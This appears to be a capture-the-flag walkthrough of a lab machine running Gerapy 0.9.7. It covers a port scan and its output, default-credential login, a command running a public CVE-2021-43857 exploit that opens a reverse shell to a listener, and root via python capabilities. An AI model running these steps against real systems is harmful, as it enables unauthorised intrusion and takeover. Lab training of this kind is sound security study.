 Running a port scan with `rustcan -a IPADDRESS -- -A -sC -sV > levram.nmap`

```
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt syn-ack WSGIServer/0.2 CPython/3.10.6
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Fri, 10 Nov 2023 10:39:07 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html
|     Content-Length: 9979
|     Vary: Origin
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="content-type" content="text/html; charset=utf-8">
|     <title>Page not found at /nice ports,/Trinity.txt.bak</title>
|     <meta name="robots" content="NONE,NOARCHIVE">
|     <style type="text/css">
|     html * { padding:0; margin:0; }
|     body * { padding:10px 20px; }
|     body * * { padding:0; }
|     body { font:small sans-serif; background:#eee; color:#000; }
|     body>div { border-bottom:1px solid #ddd; }
|     font-weight:normal; margin-bottom:.4em; }
|     span { font-size:60%; color:#666; font-weight:normal; }
|     table { border:none; border-collapse: collapse; width:100%; }
|     vertical-align:top; padding:2px 3px; }
|     width:12em; text-align:right; color:#6
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Fri, 10 Nov 2023 10:39:02 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept, Origin
|     Allow: GET, OPTIONS
|     Content-Length: 2530
|_    <!DOCTYPE html><html lang=en><head><meta charset=utf-8><meta http-equiv=X-UA-Compatible content="IE=edge"><meta name=viewport content="width=device-width,initial-scale=1"><link rel=icon href=/favicon.ico><title>Gerapy</title><link href=/static/css/chunk-10b2edc2.79f68610.css rel=prefetch><link href=/static/css/chunk-12e7e66d.8f856d8c.css rel=prefetch><link href=/static/css/chunk-39423506.2eb0fec8.css rel=prefetch><link href=/static/css/chunk-3a6102b3.0fe5e5eb.css rel=prefetch><link href=/static/css/chunk-4a7237a2.19df386b.css rel=prefetch><link href=/static/css/chunk-531d1845.b0b0d9e4.css rel=prefetch><link href=/static/css/chunk-582dc9b0.d60b5161.css rel=prefetch><link href=/static/css/chun
|_http-cors: GET POST PUT DELETE OPTIONS PATCH
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=11/10%Time=654E0847%P=x86_64-alpine-linux-mus
SF:l%r(GetRequest,AAA,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2010\x20No
SF:v\x202023\x2010:39:02\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3
SF:\.10\.6\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nVary:\x20Acc
SF:ept,\x20Origin\r\nAllow:\x20GET,\x20OPTIONS\r\nContent-Length:\x202530\
SF:r\n\r\n<!DOCTYPE\x20html><html\x20lang=en><head><meta\x20charset=utf-8>
SF:<meta\x20http-equiv=X-UA-Compatible\x20content=\"IE=edge\"><meta\x20nam
SF:e=viewport\x20content=\"width=device-width,initial-scale=1\"><link\x20r
SF:el=icon\x20href=/favicon\.ico><title>Gerapy</title><link\x20href=/stati
SF:c/css/chunk-10b2edc2\.79f68610\.css\x20rel=prefetch><link\x20href=/stat
SF:ic/css/chunk-12e7e66d\.8f856d8c\.css\x20rel=prefetch><link\x20href=/sta
SF:tic/css/chunk-39423506\.2eb0fec8\.css\x20rel=prefetch><link\x20href=/st
SF:atic/css/chunk-3a6102b3\.0fe5e5eb\.css\x20rel=prefetch><link\x20href=/s
SF:tatic/css/chunk-4a7237a2\.19df386b\.css\x20rel=prefetch><link\x20href=/
SF:static/css/chunk-531d1845\.b0b0d9e4\.css\x20rel=prefetch><link\x20href=
SF:/static/css/chunk-582dc9b0\.d60b5161\.css\x20rel=prefetch><link\x20href
SF:=/static/css/chun")%r(FourOhFourRequest,279E,"HTTP/1\.1\x20404\x20Not\x
SF:20Found\r\nDate:\x20Fri,\x2010\x20Nov\x202023\x2010:39:07\x20GMT\r\nSer
SF:ver:\x20WSGIServer/0\.2\x20CPython/3\.10\.6\r\nContent-Type:\x20text/ht
SF:ml\r\nContent-Length:\x209979\r\nVary:\x20Origin\r\n\r\n<!DOCTYPE\x20ht
SF:ml>\n<html\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20http-equiv=\"conte
SF:nt-type\"\x20content=\"text/html;\x20charset=utf-8\">\n\x20\x20<title>P
SF:age\x20not\x20found\x20at\x20/nice\x20ports,/Trinity\.txt\.bak</title>\
SF:n\x20\x20<meta\x20name=\"robots\"\x20content=\"NONE,NOARCHIVE\">\n\x20\
SF:x20<style\x20type=\"text/css\">\n\x20\x20\x20\x20html\x20\*\x20{\x20pad
SF:ding:0;\x20margin:0;\x20}\n\x20\x20\x20\x20body\x20\*\x20{\x20padding:1
SF:0px\x2020px;\x20}\n\x20\x20\x20\x20body\x20\*\x20\*\x20{\x20padding:0;\
SF:x20}\n\x20\x20\x20\x20body\x20{\x20font:small\x20sans-serif;\x20backgro
SF:und:#eee;\x20color:#000;\x20}\n\x20\x20\x20\x20body>div\x20{\x20border-
SF:bottom:1px\x20solid\x20#ddd;\x20}\n\x20\x20\x20\x20h1\x20{\x20font-weig
SF:ht:normal;\x20margin-bottom:\.4em;\x20}\n\x20\x20\x20\x20h1\x20span\x20
SF:{\x20font-size:60%;\x20color:#666;\x20font-weight:normal;\x20}\n\x20\x2
SF:0\x20\x20table\x20{\x20border:none;\x20border-collapse:\x20collapse;\x2
SF:0width:100%;\x20}\n\x20\x20\x20\x20td,\x20th\x20{\x20vertical-align:top
SF:;\x20padding:2px\x203px;\x20}\n\x20\x20\x20\x20th\x20{\x20width:12em;\x
SF:20text-align:right;\x20color:#6");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.00 seconds


```

On port 8000 shows a webpage running on `WSGIServer 0.2`.

![Pasted image 20231110184502](https://github.com/tehokopi/Proving-Grounds/assets/150654583/70aabb6d-8b3c-45f4-813c-dbf961a67d3d)


Trying some credentials such as admin:admin
![Pasted image 20231110184617](https://github.com/tehokopi/Proving-Grounds/assets/150654583/717537ff-3118-45fd-872b-b448acc0fa7b)

Brought us to the login page. At the bottom, we see a `Gerapy v.0.9.7`, which will be taken note of.
![Pasted image 20231110184653](https://github.com/tehokopi/Proving-Grounds/assets/150654583/34fd0d35-f931-45e2-9582-313afcf48be7)
Googling the Graphy v0.9.7, there's an exploit on both github and exploitdb.
https://github.com/LongWayHomie/CVE-2021-43857
https://www.exploit-db.com/exploits/50640

At first, running the exploit keeps giving an index out of range error.
![Pasted image 20231110205858](https://github.com/tehokopi/Proving-Grounds/assets/150654583/316132d3-cf39-45c1-85cf-e2f070ab7878)

Reading the README on github,
![Pasted image 20231110210029](https://github.com/tehokopi/Proving-Grounds/assets/150654583/b9d37ff1-c6cb-4982-a4ea-1b6d1d174270)

The exploit will fail if there are no projects, hence, create a random project called test.
![Pasted image 20231110210100](https://github.com/tehokopi/Proving-Grounds/assets/150654583/ad234033-9e98-47d4-b764-2acab5706f16)

Then run the exploit again
 `python3 CVE.py -t 192.168.196.24 -p 8000 -L 192.168.45.157 -P 443`


![Pasted image 20231110210117](https://github.com/tehokopi/Proving-Grounds/assets/150654583/cd2b828b-a2c8-49db-8731-ad09448a2f0e)

Then we get a shell on our listening port on 443.
![Pasted image 20231110210202](https://github.com/tehokopi/Proving-Grounds/assets/150654583/42223e6b-3993-44cc-8bf5-6e9b76a96cda)

# Privilege Escalation

Running Linpeas to enumerate
We see capabilities set on python3.10
![Pasted image 20231111012423](https://github.com/tehokopi/Proving-Grounds/assets/150654583/2c34d378-7ce2-4e05-858a-9ad96cd7fee4)

This can also be viewed with the command:
`/usr/sbin/getcap -r / 2>/dev/null`

Now, create a script with the following and transfer it to the target:
![Pasted image 20231111012610](https://github.com/tehokopi/Proving-Grounds/assets/150654583/ca9f3655-978d-4135-b52a-37e8fe776d61)
setting the  setuid to 0

Running the exploit with :
python3.10 exploit.py

And we achieve root
![Pasted image 20231111012657](https://github.com/tehokopi/Proving-Grounds/assets/150654583/9455064f-11d7-4106-b524-865cb7da8a9c)

